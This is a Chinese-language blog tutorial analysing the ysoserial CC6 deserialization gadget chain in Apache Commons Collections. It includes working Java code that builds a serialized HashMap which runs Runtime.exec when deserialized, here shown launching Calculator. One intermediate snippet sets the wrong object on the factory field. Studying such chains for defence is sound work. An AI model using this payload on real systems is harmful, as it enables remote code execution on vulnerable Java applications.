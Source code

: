 ```yaml
---
title: CC6分析
date: 2022-03-20 00:00:00
permalink: /sec/vuln/deserialization/cc6
author:
 name: NSPlankton
 link: https://blog.pwddd.com
titleTag: 原创 # v1.9.0+
categories:
  - 漏洞原理
  - 反序列化漏洞
tags:
  - 反序列化
  - CC
  - ysoserial
---
```


# CC6 利用链分析

## 背景

我们在分析CC1时使用的jdk版本时8u65，如果使用高于8u71版本的jdk则无法利用CC1链。这是因为在高版本的jdk中改进了AnnotationInvocationHandler的readObject方法的利用逻辑。在ysoserial中，CC6解决了高版本jdk无法使用的问题，是ysoserial比较通用和全能的一条链。但是这条利用链还是需要依靠CommonsCollections3.2.2以下的版本。

## 利用链分析

我们在CC1中分析过，ysoserial中使用的LazyMap和我们使用的TransformedMap有一点区别，lazyMap使用的是AnnotationInvokerHandler的invoke方法调用其set方法。而要执行invoke方法需要包装一个动态代理对象。而本次的CC6链同样是调用lazyMap实现的，后面的都是一致的，只是入口到set方法位置不一致。下面是CC6的调用链。

```text
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
```



从LazyMap的get开始，向上寻找哪里调用了get方法，并且我们参数可控。根据这条gadget chain，我们找到了TiedMapEntry.getValue方法。在getValue中调用了map的get方法。而map是可以通过有参构造传入的。

![image-20220321135701834](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321135701834.png)

我们尝试构造一下：

```java
package com.pwddd.cc6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.Calendar;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) {

        // 1. chains
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",null}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        // lazyMap.get("bbb");
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
        tiedMapEntry.getValue();
        
    }
}
```

上面的代码基本都是类似的，后面使用tiedMapEntity封装了lazyMap，并调用getValue方法。能够执行相应的结果。

![image-20220321140942147](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321140942147.png)



既然到tiedMapEntity这一步能够执行，就需要继续寻找哪里调用了getValue方法。在tiedMapEntity中的hashCode方法中调用了getValue方法。hashCode方法我们已经很熟悉了，在URLDNS中，也是利用了HashMap的hashCode方法。

![image-20220321141259999](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321141259999.png)

那么我再次尝试调用一下：

```java
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
//        tiedMapEntry.getValue();
tiedMapEntry.hashCode();
```

发现是可以的，那么哪里又调用了hashCode方法，并且调用hashCode的对象我们可以控制呢？

在URLDNS中，我们知道HashMap中的hash方法会对我们传入的key做hash，会掉用key的hashCode方法。因此只需要将tiedMapEntity作为HashMap的key即可。

```java
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry,"bbb");
```

在put时也会弹出计算器，这是因为在hashMap的put方法中也会计算key的hash值，我们可以先不将我们的chainedTransformer封装进去，这样就无法调用了。

```java
Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

Class<LazyMap> clazz = LazyMap.class;
Field factory = clazz.getDeclaredField("factory");
factory.setAccessible(true);
factory.set(lazyMap,transformers);
```

我们尝试将生成的对象序列化之后，再反序列化。仍然无法弹出计算器。我们跟踪一下代码看一下：

![image-20220321160036361](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321160036361.png)

我们看到当执行到这里的时候，map中已经有key为aaa的数据了，那么就不会执行下面的transform方法。因此我们需要把aaa的key移除，这样在反序列化的时候，map里面没有对应的key才可以执行。



完整的代码如下：

```java
public static void main(String[] args) throws Exception {

  // 1. chains
  Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
      "getMethod",
      new Class[]{String.class,Class[].class},
      new Object[]{"getRuntime",null}
    ),
    new InvokerTransformer(
      "invoke",
      new Class[]{Object.class, Object[].class},
      new Object[]{null, null}
    ),
    new InvokerTransformer(
      "exec",
      new Class[]{String.class},
      new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
    )
  };

  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

  HashMap<Object, Object> map = new HashMap<>();
  Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

  TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put(tiedMapEntry, "bbb");
  lazyMap.remove("aaa");

  Field factoryField = LazyMap.class.getDeclaredField("factory");
  factoryField.setAccessible(true);
  factoryField.set(lazyMap,chainedTransformer);


  serialize(hashMap);
  deserialize();
}
```





